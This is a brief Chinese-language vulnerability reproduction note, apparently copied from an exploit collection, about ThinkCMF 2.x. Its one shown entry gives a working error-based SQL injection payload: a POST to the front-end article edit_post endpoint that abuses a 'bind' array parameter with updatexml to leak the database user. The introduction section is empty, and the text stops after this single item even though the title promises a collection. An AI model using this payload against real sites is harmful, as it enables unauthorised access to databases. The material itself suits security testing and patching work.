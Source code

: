 # ThinkCMF 2.2.3 漏洞合集

> 原文：[http://book.iwonder.run/0day/ThinkCMF/THINKCMFX_2.2.3 漏洞合集.html](http://book.iwonder.run/0day/ThinkCMF/THINKCMFX_2.2.3 漏洞合集.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接 sql 注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```

![image](img/c8c6522c211ca12fa990eb54a2aeec46.png)
